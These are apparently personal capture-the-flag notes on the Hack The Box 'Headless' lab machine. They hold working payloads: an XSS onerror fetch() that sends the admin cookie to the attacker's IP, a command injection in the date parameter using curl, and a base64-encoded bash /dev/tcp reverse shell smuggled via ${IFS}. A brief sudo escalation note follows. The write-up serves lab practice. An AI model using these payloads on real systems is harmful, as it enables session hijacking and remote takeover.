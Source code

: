# Headless Machine season 4

## Target IP

- [1] : 10.10.11.8
- [2] : port 22 and 5000 open

## Enumeration 
- [+] : port 5000 -> webpage 

- [+] : whatweb http://headless.htb:5000/

http://headless.htb:5000/ [200 OK] Cookies [Is_Admin] -> maybe im already admin
, Country[RESERVED][ZZ], HTML5, HTTPServer[Werkzeug/2.2.2 Python/3.11.2], IP[10.10.11.8], Python[3.11.2], Script, Title[Under Construction], Werkzeug[2.2.2]

- [+] : I can try to inject javascript in /support 

- [1] : trying XSS shows 

		Hacking Attempt Detected

		Your IP address has been flagged, a report with your browser information has been sent to the administrators for investigation.

		Client Request Information:

		Method: POST
		URL: http://headless.htb:5000/support
		Headers: Host: headless.htb:5000
		User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:109.0) Gecko/20100101 Firefox/115.0
		Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
		Accept-Language: en-US,en;q=0.5
		Accept-Encoding: gzip, deflate
		Referer: http://headless.htb:5000/support
		Content-Type: application/x-www-form-urlencoded
		Content-Length: 207
		Origin: http://headless.htb:5000
		Dnt: 1





- [+] : I can try to use admin cookie in /dashboard 

- [1] : Shows 401 Unauthorized ## Maybe have to check request with burp later

## Tried to Send request with traficked date , since the website is supposed to work until 24 hours passes 

- [2] : good source -> https://superuser.com/questions/801772/401-unauthorized-page-displays-server-info-is-this-a-security-issue
		
- [+] : ecdsa-sha2-nistp256 key decoded

		Key type: ecdsa-sha2-nistp256
		Curve: nistp256
		Point: 0x0495c1996799628d4b479d094ecf222b22021d3efa8bbf9f04fa1e88a0d7461ce3b1f316aeec07ae8b07a12c11c62a9475a2582f026058ebfe8c5001e399d1407c	
		

## Foothold
 
- [1] : message parameter injectable -> test; <img src=x onerror=fetch('http://10.10.14.32/c='+document.cookie);>

- [2] : php -S 0.0.0.0:80

[Sun Mar 24 01:00:29 2024] PHP 8.2.7 Development Server (http://0.0.0.0:80) started
[Sun Mar 24 01:00:56 2024] 10.10.11.8:54680 Accepted
[Sun Mar 24 01:00:56 2024] 10.10.11.8:54680 [404]: GET /c=is_admin=ImFkbWluIg.dmzDkZNEm6CK0oyL1fbM-SnXpH0 - No such file or directory

we can see 2 gets one from ourselves and one from the admin logs I would guess cuz the second get takes time to comeback

### Now lets go to dashboard again ;)
### it shows a date that is fixed to 09-15-2023 ## Clicking generate report shows "Systems are up and running!"

- [1] : date parameter seems to be injectable -> date=2024-09-15; curl http://10.10.14.32:8008/revshell.sh 

		python3 -m http.server 8008
		Serving HTTP on 0.0.0.0 port 8008 (http://0.0.0.0:8008/) ...
		10.10.11.8 - - [24/Mar/2024 01:11:12] code 404, message File not found
		10.10.11.8 - - [24/Mar/2024 01:11:12] "GET /revshell.sh HTTP/1.1" 404 
		
- [1] : Get revshell :
		
echo "bash -c 'bash -i >& /dev/tcp/10.10.14.32/4444 0>&1'" | base64 
YmFzaCAtYyAnYmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4zMi80NDQ0IDA+JjEnCg==

date=2024-09-15;echo${IFS}"YmFzaCAtYyAnYmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4zMi80NDQ0IDA+JjEnCg=="${IFS}|${IFS}base64${IFS}-d${IFS}|${IFS}bash; #### URL ENCODE IT !!!!!!!!!!!!!!!!!!!!


- [2] : Get root

sudo -l can run /usr/bin/syscheck
create initdb.sh and -> su root into it
	

	
	

